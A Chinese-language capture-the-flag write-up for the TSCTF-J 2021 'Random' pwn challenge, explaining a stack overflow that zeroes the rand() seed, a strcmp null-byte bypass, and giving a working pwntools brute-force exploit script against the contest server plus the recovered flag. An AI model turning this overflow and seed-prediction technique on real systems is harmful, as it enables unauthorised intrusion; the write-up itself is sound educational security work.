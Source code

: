 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Random WriteUp
date: 2021-10-30
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 分析

使用 IDA 打开, 发现题目要求我们输入正确10次C产生的随机数, 接着需要再输入正确的`/dev/urandom`产生的随机字节数据流

### 初期资料

#### rand()
`rand()`函数每次调用前都会查询是否调用过`srand(seed)`，是否给`seed`设定了一个值，如果有那么它会自动调用`srand(seed)`一次来初始化它的起始值
若之前没有调用`srand（seed）`，那么系统会自动给`seed`赋初始值，即`srand（1）`自动调用它一次

<!--truncate-->

#### /dev/urandom

`/dev/urandom`是Linux系统中提供的随机伪设备，任务是提供永不为空的随机字节数据流。



既然`rand()`是根据随机数种子`seed`生成随机数，那么只要`seed`相同，不就可以生成一样的随机数了么？



### 分析代码

#### 第一个随机

我们可以发现*buf*的长度是*22*, 却可以读入*0x30bytes*的数据

![read函数](https://cdn.ova.moe/img/image-20211025093806860.png)

观察栈堆，可以发现*buf*与*seed*只相距*0x18*个字节, 则我们可以考虑栈溢出覆盖随机数种子

![栈堆](https://cdn.ova.moe/img/image-20211025094037688.png)

#### 第二个随机

这里就略有难度了。搜索的时候我发现了一个通过填充`\x00`使`strlen=0`直接跳过`strncmp`的方法，但这个显然不适合我们的`strcmp`

![第二个随机](https://cdn.ova.moe/img/image-20211025095441204.png)

但`strcmp`工作原理是这样的：

> strcmp: 两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇'\0'为止。

也就是说, 如果*s*是以`\x00`开头的话, 我们的`strcmp`就会返回0, 而不用管后面的数据和`buff`是什么。

这也就是真正的random - 让`/dev/urandom`生成以`\x00`开头的字节数据流。

### 编写脚本

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000) 
    # sh = process("./randomn") # 在本地测试的时候不知道为什么会报EOFError, 只好连接服务器跑脚本 （问了一哈可能是Ubuntu20.04LTS的程序保护问题）
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # 引用库文件
    payload = '\x00' * 0x20 # 既然我们的数据都只与buf和seed有关，不如直接全用\x00填充掉
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # 用0和用1作为seed结果是一样的
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))
    
    # Random_2
    payload = '\x00' # 随便填充一个啦
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # 会有一个空行所以print了一下，其实也没有必要（）
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> 这里有一个小细节, 我们把`seed`用`\x00`填充后，`rand()`函数会自动调用`srand(1)`一次, 而其实`srand(1)`和`srand(0)`的结果是相同的
>
> 关于这里我在[stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)上找到了一篇文章
>
> > How glibc does it:
> >
> > >  [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

于是接下来就是漫长的爆破环节了，只能说运气是真的不好，爆破了一个多小时，让我一度以为脚本写的有问题（）

![后半段](https://cdn.ova.moe/img/image-20211025104934165.png)

经过漫长的等待终于拿到了FLAG`o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`，但只有后半段？怎么会事呢？

仔细研究IDA才发现，前半段其实在第一次random随机的时候就给出了（但是我由于觉得log等级debug的东西太多了在跑的时候给他注释掉了）

![前半段_IDA](https://cdn.ova.moe/img/image-20211025101006065.png)

于是再跑一次前半段，得到前半段flag`TSCTF-J{G0`

![前半段](https://cdn.ova.moe/img/image-20211025101032214.png)

拼接一下就有完整的FLAG了：

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`

